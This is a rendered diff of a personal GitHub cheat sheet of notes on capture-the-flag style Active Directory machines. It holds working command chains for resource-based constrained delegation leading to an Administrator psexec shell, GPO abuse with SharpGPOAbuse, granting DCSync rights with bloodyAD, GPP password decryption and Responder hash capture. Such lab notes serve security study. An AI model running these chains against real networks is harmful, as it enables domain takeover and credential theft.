

Before and after one commit to SkinnyRat/Cybersecurity, a Markdown page: active/BoxesF.md, 2 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
Refactoring AD contents

```diff
--- a/active/BoxesF.md
+++ b/active/BoxesF.md
@@ -32,15 +32,14 @@
 #### Resourced => RBCD
 1. Check enum4linux properly! `crackmapexec winrm {{DC_IP}} -u names.txt -H hashes.txt`
 2. User has SeMachineAccountPrivilege = can create machine accounts even if ms-DS-MachineAccountQuota = 0
-3. `impacket-addcomputer -computer-name 'ATTACKERSYSTEM$' -computer-pass 'Summer2018!' -dc-host {{DC_IP}} -domain-netbios {{DOMAIN}} '{{DOMAIN}}/{{USERNAME}}' -hashes ':{{HASH}}'`
+3. User has GenericAll on DC machine = `impacket-addcomputer -computer-name 'ATTACKERSYSTEM$' -computer-pass 'Summer2018!' -dc-host {{DC_IP}} -domain-netbios {{DOMAIN}} '{{DOMAIN}}/{{USERNAME}}' -hashes ':{{HASH}}'`
 4. `impacket-rbcd -delegate-from 'ATTACKERSYSTEM$' -delegate-to '{{MACHINE_NAME}}$' -action 'write' '{{DOMAIN}}/{{USERNAME}}' -hashes ':{{HASH}}' -dc-ip {{DC_IP}}`
 5. `impacket-getST -spn 'cifs/{{MACHINE_NAME}}.{{DOMAIN}}' -impersonate 'Administrator' '{{DOMAIN}}/attackersystem$:Summer2018!' -dc-ip {{DC_IP}}`
-6. `export KRB5CCNAME=./{{KERBEROS_TICKET}}.ccache`
-7. `impacket-psexec {{MACHINE_NAME}}.{{DOMAIN}}  -target-ip {{DC_IP}} -k -no-pass"`
+6. `KRB5CCNAME=./{{KERBEROS_TICKET}}.ccache impacket-psexec {{MACHINE_NAME}}.{{DOMAIN}}  -target-ip {{DC_IP}} -k -no-pass"`
 
 #### Vault => Responder on icon.url
 1. Put icon.url in writable smb, then let responder get hash.
-2. Either replace utilman with cmd or abuse GenericWrite on Default Domain Policy then `gpupdate /force`
+2. Either replace utilman with cmd (SeRestorePrivilege) or abuse GenericWrite on Default Domain Policy using `./SharpGPOAbuse.exe --AddLocalAdmin --UserAccount anirudh --GPOName "Default Domain Policy"` then `gpupdate /force`
 
 ====
 
@@ -54,8 +53,8 @@ SMB: ` gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUj
 
 #### Forest => LDAP
 1. Run ldapsearch, rpcclient, enum4linux to get users
-2. Run net users, whoami, bloodhound to see *WriteDACL* = can grant DCsync
-3. Add user to group with WriteDACL
+2. Run net users, whoami, bloodhound to see *GenericAll* on group = `net group "Exchange Windows Permissions" {{USERNAME}} /add /domain`
+3. Group has *WriteDACL* on domain = do `bloodyAD --host {{DC_IP}} -d htb.local -u {{USERNAME}} -p {{PASSWORD}} add dcsync {{USERNAME}}` to get DCSync.
 
 #### Sauna => usernames from website
 1. WinPEAS found autologon creds
```
